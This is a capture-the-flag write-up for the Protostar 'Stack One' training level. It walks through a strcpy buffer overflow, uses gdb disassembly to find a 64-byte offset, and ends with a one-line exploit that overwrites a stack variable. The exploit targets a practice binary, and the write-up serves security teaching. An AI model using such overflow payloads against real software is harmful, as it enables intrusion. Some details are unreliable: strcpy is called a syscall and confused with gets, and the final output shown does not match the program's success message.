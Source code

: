 # Stack One

> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory. This level is at /opt/protostar/bin/stack1
>
>
>
> **Hints**
>
> * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend
> * Protostar is little endian

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

* This program requires us to pass arguments, with `argv[0]` being the program name. If we don't provide an extra argument, we are asked to specify an argument.
* The `strcpy` system call is used to read user input into the buffer.
* Let's look at it's manual page.

```c
char strcpy(char restrict dst, const char restrict src);
```

* We can see that the characters are read from `argv[1]` and copied to the `buffer`.
* It is better that the `gets` syscall but it still has it's own problems.

```
CAVEATS 

    The strings src and dst may not overlap.

    If the destination buffer is not large enough, the behavior is
    undefined.
```

* So the `strcpy` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.
* This is the vulnerability that we have to exploit.
* But before that let's go through the rest of the code.
* There is an `if` statement which checks if the value of `modified` in not equal to `0x61626364`. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
* We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.
* Let's disassemble the program in `gdb`.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

* The instruction at `main+67` sets up the check.

```
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
```

* The value in `eax` is compared with `0x61626364` which in ASCII is `abcd`. This value is moved from `esp+0x5c`.
* Next, we want to locate the buffer.

```
--snip--;
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
--snip--;
```

* In 32-bit assembly the arguments for a `call` are stored onto the `stack`.
* In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.
* The distance between the location of the `modified` variable and the buffer is the following:

```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

* The variable is located right where the buffer ends.
* Therefore we need 68 bytes in total, 64 bytes to fill the buffer and 4 bytes to overwrite the `modified` variable.

```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd
Try again, you got 0x64636261
```

* Ah! The characters are being stored in [little-endian](https://www.geeksforgeeks.org/little-and-big-endian-mystery/) format. So `abcd` is being flipped to `dcba`.
* In order to pass the check, we have to provide the the flipped string i.e. `dcba`.

### Exploit

```
$ ./stack1 $(python -c 'print "A"*64 + "dcba")
you have changed the 'modified' variable
```
